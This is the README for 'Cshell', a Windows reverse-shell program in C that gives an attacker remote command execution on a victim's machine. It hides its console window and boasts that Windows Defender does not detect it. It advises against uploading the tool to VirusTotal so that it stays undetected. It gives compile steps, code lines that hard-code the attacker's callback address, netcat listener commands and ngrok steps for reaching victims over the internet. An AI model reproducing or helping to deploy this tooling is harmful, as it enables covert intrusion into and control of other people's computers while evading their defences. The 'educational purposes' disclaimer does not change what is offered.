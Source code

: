 # Cshell - Reverse Shell in C

Cshell is a simple reverse shell written in C that connects to a specified IP address and port, allowing an attacker to execute system commands on the victim's machine remotely. This reverse shell leverages the Winsock API on Windows and hides the console window upon execution.
Disclaimer

This project is for educational purposes only.
Use this tool responsibly. Unauthorized access to systems without proper consent is illegal and punishable by law. The author is not responsible for any misuse or damages caused by this program. Make sure you have permission before using this reverse shell on any device or network.

# Important Note:

As of `10/09/2024`, Cshell is undetectable by Windows Defender. However, do not upload the binary or script to sites like VirusTotal, as doing so could lead to its detection being added to antivirus databases, compromising its effectiveness.

# Features

   - Connects to a remote IP address and port over TCP.
   - Executes system commands received from the remote host.
   - Sends the output of the commands back to the remote host.
   - Hides the console window to run silently in the background.
   - Undetectable by Windows Defender as of 10/09/2024.

# How to Compile Cshell

Cshell is designed for Windows and can be compiled using Visual Studio Community Edition. Follow these steps to compile it:
Prerequisites

   1. [Visual Studio Community Edition](https://visualstudio.microsoft.com/vs/community/) (Ensure that the "Desktop development with C++" workload is installed).
   2. [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/) (Should be installed by default with Visual Studio).

# Compilation Steps

   1. Clone or download this repository.
   2. Open the project folder in Visual Studio.
   3. Open the `.sln` (solution) file to load the project.
   4. Edit the `server.sin_addr` line in the source code to hard-code your IP/Hostname and Port:

```c
server.sin_port = htons(4444); // Replace with your port
InetPton(AF_INET, "<IP/Hostname>", &server.sin_addr); // Replace with your IP/Hostname
```

   5. Build the project by selecting Build > Build Solution (or press Ctrl+Shift+B).
   6. The compiled executable will be located in the project's Debug or Release folder.

# Running the Reverse Shell

   1. Host a listener on the specified port. You can use tools like `Netcat` or `Metasploit` to listen for the incoming connection:

```bash
nc -lvnp 4444
```
   2. Replace `4444` with the port you configured in the source code.

   3. Execute the `Cshell.exe` on the target machine. The reverse shell will attempt to connect to the IP address and port hard-coded in the source code.

# Using ngrok for Internet Access

To make the reverse shell accessible over the internet, you can use ngrok to expose a local port to the public internet.

# Steps to Use ngrok:

   1. Download ngrok:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
```
Or follow the official instructions from [ngrok.com](https://ngrok.com/)

2. Expose Your Local Port: Run the following command to expose the listener port (e.g., `4444`) to the internet:

```bash
ngrok tcp 4444
```

3. `ngrok` will give you a forwarding address (e.g., `tcp://0.tcp.ngrok.io:12345`).

3. Edit the Code: Replace the `<IP/Hostname>` in your code with the forwarding address provided by `ngrok` (e.g., `0.tcp.ngrok.io`) and the port with the one provided (e.g., `12345`):

```c
server.sin_port = htons(12345); // ngrok assigned port
InetPton(AF_INET, "0.tcp.ngrok.io", &server.sin_addr); // ngrok forwarding address
```

4. Run Your Listener: Start a listener on the ngrok-exposed port using `Netcat` or any other reverse shell listener tool:

```bash
nc -lvnp 12345
```
5. Run the Shell: Execute the Cshell.exe on the target machine. It will now connect through ngrok, allowing you to get a reverse shell over the internet.

# Security Considerations

Be aware that running reverse shells can expose vulnerabilities in the systems they target. Always secure your systems and use such tools ethically. For more advanced usage, consider implementing encryption or authentication mechanisms to secure the connection.

# License

This project is licensed under the MIT License. See the LICENSE file for more details.
